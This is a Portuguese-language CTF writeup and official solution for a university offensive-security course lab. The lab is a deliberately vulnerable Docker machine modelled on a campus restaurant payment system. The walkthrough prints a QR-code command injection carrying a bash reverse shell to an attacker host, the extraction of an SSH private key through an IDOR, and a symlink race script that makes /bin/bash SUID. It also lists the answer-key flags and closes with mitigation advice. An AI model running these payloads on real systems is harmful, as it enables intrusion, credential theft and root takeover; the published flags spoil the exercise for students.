

# Relatório Técnico & Writeup Oficial — Sistema de Recarga do RU (03-ru) 🍽️💳

> **Disciplina:** Segurança Ofensiva · Universidade de Brasília (UnB)  
> **Tema:** Sistema de Autoatendimento e Recarga do Restaurante Universitário (RU)  
> **Dificuldade:** Média  
> **Formato das Flags:** `TAC{...}`  
> **Ambiente:** Linux (Debian 12 / Docker Container)  
> **Portas Expostas:** `8000/TCP` (Portal Web), `2222/TCP` (SSH)

---

## 1. Contextualização e Sinopse do Desafio

A Diretoria de Gestão do Restaurante Universitário (RU) da Universidade de Brasília (UnB) lançou uma versão preliminar do seu novo sistema integrado de autoatendimento para modernizar o acesso dos discentes e otimizar a compra de créditos.

O ecossistema é composto por:
1. Um **portal web voltado aos estudantes** (porta 8000), contendo um módulo experimental de validação rápida através do escaneamento óptico de carteirinhas estudantis.
2. Uma **interface interna de painel** (porta 8081, restrita a loopback) para acompanhamento dos caixas.
3. Uma **API administrativa interna** (porta 9090, restrita a loopback) para consulta de dados dos operadores de atendimento.
4. Um **serviço em background (daemon)** rodando com privilégios de `root`, responsável pelo fechamento e conciliação noturna dos caixas físicos do RU.

Na pressa para homologar o sistema antes do início do período letivo, a equipe de TI da terceirizada cometeu falhas críticas de validação de dados de entrada, exposição indevida de credenciais em APIs internas e condições de corrida na manipulação de arquivos temporários em jobs administrativos.

O objetivo do pentester é auditar a segurança do sistema partindo estritamente do acesso externo de rede, obter acesso não privilegiado ao servidor web (`ru_web`), pivotar internamente para o usuário operacional (`operador_caixa`) e finalmente realizar a escalação de privilégios para `root`.

---

## 2. Instruções de Execução do Ambiente

O ambiente foi desenvolvido respeitando rigorosamente as diretrizes de segurança da disciplina:
* Não utiliza modo privilegiado (`privileged: false`).
* Não monta o socket do Docker (`docker.sock`) nem qualquer diretório do host.
* Não depende de conexão externa com a internet após o build.
* Suporta execução em arquitetura `linux/amd64`.

### Modo 1: Execução via Imagem Pública (Ambiente de Distribuição)

Ideal para os grupos que forem resolver a máquina via Docker Hub:

1. Utilize o arquivo `docker-compose.yml` da raiz:
   ```yaml
   services:
     ru-machine:
       image: desafiotac/ru-machine:1.0
       container_name: ru-machine
       ports:
         - "8000:8000"
         - "2222:22"
       restart: unless-stopped
   ```
2. Inicie o container em comando único:
   ```bash
   docker compose up -d
   ```

### Modo 2: Execução a Partir dos Arquivos-Fonte (Build Local)

Ideal para o professor ou para auditoria do código-fonte entregue:

1. Navegue até a pasta de deploy e execute o compose com build:
   ```bash
   cd deploy
   docker compose up --build -d
   ```
2. Para encerrar e limpar os containers:
   ```bash
   docker compose down
   ```

---

## 3. Descrição Técnica das Vulnerabilidades Implementadas

| Etapa | Vulnerabilidade | Classificação CWE | Componente Afetado | Impacto Técnico |
| :--- | :--- | :--- | :--- | :--- |
| **Etapa 1** | **OS Command Injection via QR Code** | [CWE-78](https://cwe.mitre.org/data/definitions/78.html) | `services/portal-publico/app.py` | Execução arbitrária de comandos bash como usuário não-privilegiado `ru_web`. |
| **Etapa 2/3** | **Insecure Direct Object Reference (IDOR)** | [CWE-639](https://cwe.mitre.org/data/definitions/639.html) / [CWE-200](https://cwe.mitre.org/data/definitions/200.html) | `services/admin-api/app.py` (`:9090`) | Vazamento da chave privada SSH Ed25519 do operador de caixa, permitindo movimentação lateral. |
| **Etapa 4** | **Race Condition / Symlink TOCTOU** | [CWE-367](https://cwe.mitre.org/data/definitions/367.html) / [CWE-59](https://cwe.mitre.org/data/definitions/59.html) | `privesc/conciliacao.py` | Escalação local de privilégios para `root` através do desvio da escrita em arquivo seguro via link simbólico. |

### Detalhamento das Falhas

1. **CWE-78 (Command Injection):** O endpoint `/validar` processa a imagem da carteirinha com a biblioteca `pyzbar`. A string resultante da decodificação óptica é concatenada de forma insegura em um comando do shell (`os.popen(f"... {matricula_lida}")`), permitindo que caracteres de controle de shell (como `;`, `&&` ou `|`) quebrem o fluxo original e executem binários arbitrários.
2. **CWE-639 / CWE-200 (IDOR & Information Disclosure):** A API interna em `127.0.0.1:9090` disponibiliza o endpoint `/api/v1/operadores/<id>`. O método não implementa controle de acesso baseado em escopo (RBAC) e serializa na resposta JSON a estrutura de dados completa do cadastro, incluindo o atributo sensível `chave_privada`.
3. **CWE-367 (Time-of-Check to Time-of-Use - TOCTOU):** O script `conciliacao.py`, executado periodicamente como `root`, realiza uma validação com `os.lstat()` para certificar-se de que `/var/ru/caixa/conciliacao.tmp` é um arquivo regular. Em seguida, entra em uma pausa de 15 segundos antes de reabrir o arquivo para escrita (`open(..., 'w')`) sem proteger a chamada contra resolução de symlinks (`O_NOFOLLOW`). Como o diretório `/var/ru/caixa` possui permissão de escrita para o grupo `operador_caixa`, o atacante pode substituir o arquivo por um link simbólico apontando para `/opt/helper_conciliacao.sh`, provocando a sobrescrita e execução de código como `root`.

---

## 4. Diagrama da Kill Chain



---

## 5. Walkthrough Técnico da Exploração

### Etapa 1: Acesso Inicial (Command Injection via QR Code)

#### 1.1. Reconhecimento Web
Ao acessar `http://<IP_ALVO>:8000/`, visualiza-se a página principal de horários e cardápios do Restaurante Universitário.

Executa-se uma enumeração de diretórios e arquivos:
```bash
gobuster dir -u http://<IP_ALVO>:8000/ -w /usr/share/wordlists/dirb/common.txt
```

**Rotas identificadas:**
* `http://<IP_ALVO>:8000/beta` — Módulo experimental de recarga automática por carteirinha estudantil.
* `http://<IP_ALVO>:8000/carterinha-teste.jpg` — Amostra de carteirinha utilizada para testes da equipe.

#### 1.2. Análise do Arquivo de Teste
Baixamos a imagem e inspecionamos o payload embutido no QR Code com `zbarimg`:
```bash
wget http://<IP_ALVO>:8000/carterinha-teste.jpg
zbarimg carterinha-teste.jpg
```

**Conteúdo revelado:**
```text
DISCENTE: CACHORRO|CPF: 000.000.000-00|MATRICULA: 00000000|NÍVEL: graduaCÃO|CURSO: CACHORRO; echo 'Leitura bem sucedida'
```

Ao fazer upload do arquivo em `http://<IP_ALVO>:8000/beta`, a aplicação imprime no painel da tela o texto `Leitura bem sucedida`. A presença de `;` confirma a injeção direta na chamada de shell da aplicação.

#### 1.3. Obtenção da Shell Reversa
1. No terminal do atacante, inicia-se o listener:
   ```bash
   nc -lvnp 4444
   ```
2. Gera-se uma imagem com payload de reverse shell em background:
   ```bash
   qrencode -o qr_revshell.png -s 8 "DISCENTE: ALUNO|CPF: 000.000.000-00|MATRICULA: 00000000; (bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1' &)"
   ```
3. Realiza-se o upload de `qr_revshell.png` em `http://<IP_ALVO>:8000/beta`.
4. A conexão reversa é estabelecida com privilégios de `ru_web`.

#### 1.4. Estabilização do Terminal e Flag 1
No listener recebido:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Digite: Ctrl + Z
stty raw -echo; fg
# Pressione Enter duas vezes
export TERM=xterm-256color
export SHELL=/bin/bash
stty rows 38 columns 160
```

Leitura da primeira flag:
```bash
cat /home/ru_web/user_ru_web.txt
```
> **Flag 1:** `TAC{RU_qr_c0de_nao_e_so_pra_leitura_7f3a1c}`

---

### Etapa 2: Pivot & Enumeração Interna

Com a shell de `ru_web`, verifica-se os sockets de escuta internos:
```bash
ss -tulnp
```

**Serviços internos identificados (bind em `127.0.0.1`):**
* `127.0.0.1:8081` — Painel interno de gerenciamento.
* `127.0.0.1:9090` — Admin-API interna.

Ao listar os processos com `ps aux | grep python`:
```text
python3 /opt/admin-api/app.py
python3 /opt/painel/app.py
python3 -u /opt/conciliacao.py
```

---

### Etapa 3: Movimentação Lateral via IDOR (`operador_caixa`)

#### 3.1. Exploração da Admin-API
Consultando a listagem de funcionários na API interna:
```bash
curl -s http://127.0.0.1:9090/api/v1/operadores
```
Retorno:
```json
[
  {"id": 1, "usuario": "ana_atendimento", "cargo": "Atendente de Balcão"},
  {"id": 2, "usuario": "carlos_supervisao", "cargo": "Supervisor de Turno"},
  {"id": 3, "usuario": "operador_caixa", "cargo": "Operador de Caixa (automação)"}
]
```

Consultando os dados do operador ID 3 (`operador_caixa`):
```bash
curl -s http://127.0.0.1:9090/api/v1/operadores/3
```

A API retorna o objeto completo com a **chave SSH privada Ed25519** no campo `chave_privada`.

#### 3.2. Extração da Credencial e Acesso SSH
Extraímos a chave privada para um arquivo temporário com permissões restritas:
```bash
curl -s http://127.0.0.1:9090/api/v1/operadores/3 \
  | python3 -c "import sys, json; print(json.load(sys.stdin)['chave_privada'])" \
  > /tmp/id_operador

chmod 600 /tmp/id_operador
```

Conecta-se via SSH como `operador_caixa`:
```bash
ssh -i /tmp/id_operador operador_caixa@127.0.0.1
```
*(Também é possível conectar externamente a partir da máquina atacante através da porta exposta `2222`: `ssh -p 2222 -i id_operador operador_caixa@<IP_ALVO>`)*.

Leitura da segunda flag:
```bash
cat /home/operador_caixa/user_operador.txt
```
> **Flag 2:** `TAC{RU_1d0r_ssh_operador_6b2f9a}`

---

### Etapa 4: Escalação de Privilégios para Root (Symlink TOCTOU)

#### 4.1. Análise da Lógica Privilegiada
Como `operador_caixa`, inspeciona-se o script `/opt/conciliacao.py`:
* Roda periodicamente como `root` a cada 90 segundos.
* Processa arquivos dentro de `/var/ru/caixa`, onde o grupo `operador_caixa` possui permissão total de escrita (`2770`).
* **Janela de vulnerabilidade (TOCTOU):**
  1. O script valida se `/var/ru/caixa/conciliacao.tmp` é um arquivo regular com `os.lstat()`.
  2. Aguarda **15 segundos** (`time.sleep(15)`).
  3. Abre o arquivo com `open(..., 'w')` sem flag `O_NOFOLLOW` e grava os dados de `/var/ru/caixa/dados.csv`.
  4. Executa o script `/opt/helper_conciliacao.sh` como `root`.

#### 4.2. Execução do Exploit de Race Condition
1. Define-se o payload desejado em `/var/ru/caixa/dados.csv`:
   ```bash
   cat << 'EOF' > /var/ru/caixa/dados.csv
   #!/bin/bash
   chmod 4755 /bin/bash
   EOF
   ```

2. Cria-se o script para plantar o symlink apontando para `/opt/helper_conciliacao.sh` assim que o processo root passar pela checagem do `lstat()`:
   ```bash
   cat << 'EOF' > /tmp/toctou.sh
   #!/bin/bash
   DIR="/var/ru/caixa"
   ALVO="/opt/helper_conciliacao.sh"

   rm -f "$DIR/conciliacao.tmp"
   touch "$DIR/conciliacao.tmp"

   while true; do
       if [ -f "$DIR/conciliacao.tmp" ] && [ ! -L "$DIR/conciliacao.tmp" ]; then
           sleep 2
           rm -f "$DIR/conciliacao.tmp"
           ln -s "$ALVO" "$DIR/conciliacao.tmp"
           echo "[+] Symlink plantado com sucesso! Aguardando o ciclo root..."
           break
       fi
       sleep 1
   done
   EOF

   chmod +x /tmp/toctou.sh
   /tmp/toctou.sh
   ```

3. Ao rodar `/tmp/toctou.sh`, aguarda-se a mensagem de confirmação. Durante a janela de 15 segundos, o symlink substitui o arquivo original. Ao término da pausa, o daemon root grava o conteúdo malicioso em `/opt/helper_conciliacao.sh` e o executa.

#### 4.3. Shell Root e Flag Final
Com o bit SUID adicionado ao `/bin/bash`, invoca-se a shell privilegiada:
```bash
/bin/bash -p
whoami
# root
```

Leitura da root flag:
```bash
cat /root/root.txt
```
> **Flag 3:** `TAC{RU_t0ct0u_syml1nk_r00t_9c4e2b}`

---

## 6. Tabela Oficial de Flags

| Flag | Localização no Sistema | Valor Oficial |
| :--- | :--- | :--- |
| **Flag 1 (`ru_web`)** | `/home/ru_web/user_ru_web.txt` | `TAC{RU_qr_c0de_nao_e_so_pra_leitura_7f3a1c}` |
| **Flag 2 (`operador_caixa`)** | `/home/operador_caixa/user_operador.txt` | `TAC{RU_1d0r_ssh_operador_6b2f9a}` |
| **Flag 3 (`root`)** | `/root/root.txt` | `TAC{RU_t0ct0u_syml1nk_r00t_9c4e2b}` |

---

## 7. Recomendações de Mitigação (Segurança Defensiva)

1. **Saneamento e Execução Segura (Anti-Command Injection):**
   * Nunca passar entradas não confiáveis para shells ou funções como `os.popen()` ou `subprocess.Popen(..., shell=True)`.
   * Utilizar execução direta de binários com argumentos estruturados em lista: `subprocess.run(["/usr/local/bin/script.sh", matricula], shell=False, check=True)`.
   * Validar a matrícula com expressões regulares estritas (ex: `^[0-9]{8,9}$`) antes de qualquer processamento.

2. **Controle de Acesso e Exposição Mínima de Dados (Anti-IDOR):**
   * Implementar autenticação via tokens JWT ou sessões assinadas nos serviços internos.
   * Chaves criptográficas privadas jamais devem ser serializadas em respostas JSON de APIs de consulta. Devem permanecer isoladas em cofres de segredos (como HashiCorp Vault) ou com permissões restritas no disco (`chmod 600`).

3. **Prevenção de Race Conditions e Manipulação de Links Simbólicos:**
   * Utilizar a chamada segura `os.open()` com a flag `os.O_NOFOLLOW` para falhar imediatamente caso o arquivo seja um link simbólico:
     ```python
     fd = os.open(caminho, os.O_WRONLY | os.O_CREAT | os.O_TRUNC | os.O_NOFOLLOW, 0o600)
     ```
   * Nunca compartilhar diretórios temporários graváveis por usuários não-privilegiados com processos executados com privilégios de `root`.
